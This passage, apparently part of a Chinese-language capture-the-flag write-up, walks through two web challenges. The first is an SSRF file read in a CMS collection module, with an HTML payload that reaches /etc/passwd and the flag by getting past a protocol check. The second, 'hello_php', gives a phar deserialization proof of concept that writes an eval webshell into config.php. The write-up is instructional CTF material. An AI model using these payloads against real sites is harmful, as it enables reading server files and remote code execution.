 本地跟了一下代码，在`application\collection\controller\collection_content.class.php`的183~224行的`public function collection_article_content()`

![](https://gitee.com/tianchenzi/imagebed/raw/master/img/20210104164715.png)

在后台的模块管理->采集管理模块处添加节点，然后网址处填写构造的恶意页面

跟进`collection`类，转到`yzmphp\core\class\collection.class.php`：

![](https://gitee.com/tianchenzi/imagebed/raw/master/img/20210104164720.png)

很明显无任何过滤的`file_get_content()`，利用此进行一个SSRF可以任意文件读取

尝试读`/etc/passwd`
ssrf.html：
```html
<leon><a href="httpxxx://../../../../../../etc/passwd">123</a></leon>
```
这里用httpxxx是因为`yzmphp\core\class\collection.class.php`的189行对url协议前四位限制了http

![](https://gitee.com/tianchenzi/imagebed/raw/master/img/20210104164727.png)


配置如下：

![image-20201226151910969](https://gitee.com/tianchenzi/imagebed/raw/master/img/20210104164731.png)

成功读取：
![](https://gitee.com/tianchenzi/imagebed/raw/master/img/20210104164736.png)

尝试读flag:
```html
<leon><a href="httpxxx://../../../../../../flag">123</a></leon>
```
![](https://gitee.com/tianchenzi/imagebed/raw/master/img/20210104164739.png)

```
flag{46a41939-3d92-411f-8ba2-3dbefa6fdff0}
```

### hello_php

扫目录www.zip拿源码

简单审计一下，文件上传、文件后缀拼接`.jpg`、`index.php`很明显有个文件操作函数

![](https://gitee.com/tianchenzi/imagebed/raw/master/img/20210104164743.png)

明显的phar反序列化，看`class.php`找析构函数，发现对`config.php`进行写入，于是只需要反序列化控制`$this->title`为恶意代码即可，简单写个一句话shell，绕一下正则替换：

poc：
```php
<?php
   class Config{
    public $title;
    public $comment;
    public $logo_url;
}
    $o = new Config();
    $o->title="';eval(\$_GET[a]);#";
    
    @unlink("test.phar");
    $phar = new Phar("test.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($o);
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
```